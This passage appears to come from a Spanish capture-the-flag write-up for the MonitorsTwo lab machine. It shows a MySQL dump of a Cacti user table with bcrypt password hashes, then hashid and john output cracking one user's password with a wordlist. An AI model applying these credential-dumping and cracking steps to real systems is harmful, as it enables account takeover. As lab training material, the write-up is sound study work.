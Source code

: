 Al revisar el contenido de la tabla `user_auth`, logramos encontrar credenciales en formato hash de diferentes usuarios.

```bash
MySQL [cacti]> SELECT * FROM user_auth;
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
| id | username | password                                                     | realm | full_name      | email_address          | must_change_password | password_change | show_tree | show_list | show_preview | graph_settings | login_opts | policy_graphs | policy_trees | policy_hosts | policy_graph_templates | enabled | lastchange | lastlogin | password_history | locked | failed_attempts | lastfail | reset_perms |
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
|  1 | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |     0 | Jamie Thompson | admin@monitorstwo.htb  |                      | on              | on        | on        | on           | on             |          2 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 | -1               |        |               0 |        0 |   663348655 |
|  3 | guest    | 43e9a4ab75570f5b                                             |     0 | Guest Account  |                        | on                   | on              | on        | on        | on           | 3              |          1 |             1 |            1 |            1 |                      1 |         |         -1 |        -1 | -1               |        |               0 |        0 |           0 |
|  4 | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |     0 | Marcus Brune   | marcus@monitorstwo.htb |                      |                 | on        | on        | on           | on             |          1 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 |                  | on     |               0 |        0 |  2135691668 |
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
3 rows in set (0.000 sec)
```

A través de `john` logramos crackear el hash de las credenciales del usuario `marcus`.

```bash
❯ hashid '$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C'
Analyzing '$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 

❯ john --wordlist:/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
funkymonkey      (?)     
1g 0:00:01:07 DONE (2025-02-16 02:49) 0.01474g/s 126.3p/s 126.3c/s 126.3C/s addict..rasengan
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
